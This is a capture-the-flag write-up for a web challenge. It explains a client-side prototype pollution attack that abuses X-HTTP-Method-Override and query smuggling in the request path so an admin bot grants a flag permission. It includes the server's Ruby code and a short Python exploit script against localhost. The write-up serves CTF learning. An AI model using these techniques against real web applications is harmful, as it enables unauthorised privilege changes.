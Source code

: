 + two containers: API server and frontend server
+ the requests from the frontender server to the API server is cross-origin. To make it able to do that, the API server provides CORS headers like Access-Control-Allow-Origin and Access-Control-Allow-Methods.
+ You can get the flag at `/api/post/:id/has_enough_permission_to_get_the_flag` on the API server, but you need to make a post's post['permission]['flag'] truthy.
  ```
  get '/api/post/:id/has_enough_permission_to_get_the_flag' do
    id = params['id']
    if !posts.key?(id)
        return { 'error' => 'no such post' }.to_json
    end

    permission = posts[id]['permission']
    if !permission || !permission['flag']
        return { 'flag' => 'nope' }.to_json
    end

    return { 'flag' => FLAG }.to_json
  ```
  
+ post['permission]['flag'] is set true when a post get 1,000,000,000,000 likes, but as you can see the code of /api/post/:id/like, the maximum number of likes is 5,000.
+ There is an API where you can update information of posts, but only admin can change permission. In other words, if you can let admin make requests to this API, you can get the flag.
```
  put '/api/post/:id' do
    token = request.env['HTTP_AUTHORIZATION']
    is_admin = token == ADMIN_KEY

    id = params['id']
    if !posts.key?(id)
        return { 'error' => 'no such post' }.to_json
    end

    id = params['id']
    if SAMPLE_IDS.include?(id)
        return { 'error' => 'sample post should not be updated' }.to_json
    end

    if !is_admin && params['permission']
        return { 'error' => 'only admin can change the parameter' }.to_json
    end

    if !(params['title'] || params['content'])
        return { 'error' => 'no title and content specified' }.to_json
    end

    posts[id].merge!(params)
    return posts[id].to_json
```

+ This is a code that retrieves information of multiple articles. It sequentially fetches data from /api/post/(ID) and stores the data on posts.
+ post can be Object.prototype because it is initialized by post = posts[id], where id is given by a user, and you can inject __proto__ as an ID.
+ `data` is data fetched from API and will not be updated when res.post is falsy. This means that it uses the data of the previous article when fetching data from API fails. Fetching data fails when the article corresponds to ID given does not exist like __proto__.
+ if it fetches data in the order of a malicious article, then __proto__, you can pollute Object.prototype. You can easily prepare malicious object using PUT /api/post/:id because it accepts anything as long as permission property is not in the parameters you submit.
+ gadget for prototype pollution: fetch(https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis)
+ For example, when you pollute Object.prototype.headers, even though no headers are given as fetch options, additional headers will be sent. After Object.prototype is polluted, admin will push like button and a request to add likes will be sent, so you can control this request.
+ Referring to Access-Control-Allow-Methods, you can see that the API server only allows GET, POST, OPTIONS requests from cross-origin websites. However, you have to use PUT method to let admin update our article's information.
+ by polluting Object.prototype.headers['X-HTTP-Method-Override'] to PUT, the API server treats the request as a PUT request, even though the real method is POST.
+ Two problems yet to be solved:
  - the route to add likes is /api/post/:id/like, but the route you want to call is /api/post/:id
  - to let admin send permission[flag]=yes as a parameter.
+ You can solve both by using (article ID that exists)?title=piyo&permission[flag]=yes& as an ID of articles. The path fetch uses will be like /api/post/(article ID that exists)?title=piyo&permission[flag]=yes&/like, so the browser will send a request to /api/post/(article ID that exists)

Exploit.py
```
import requests

API_BASE_URL = 'http://localhost:8400'
FRONTEND_BASE_URL = 'http://localhost:8401'

r = requests.post(f'{API_BASE_URL}/api/post', data={
    'title': 'aaa',
    'content': 'aaa'
})
id = r.json()['post']['id']

data = {
    'title': 'bbb',
    'content': 'bbb',
    'headers[X-HTTP-Method-Override]': 'PUT'
}
r = requests.put(f'{API_BASE_URL}/api/post/{id}', data='&'.join(f'{k}={v}' for k, v in data.items()), headers={
    'Content-Type': 'application/x-www-form-urlencoded'
})

payload = f'{id}%3ftitle%3dpiyo%26permission%5bflag%5d%3dyes%26,{id},__proto__,a'
print(f'report {payload}')
print(f'then, access {API_BASE_URL}/api/post/{id}/has_enough_permission_to_get_the_flag')
```



https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/101119

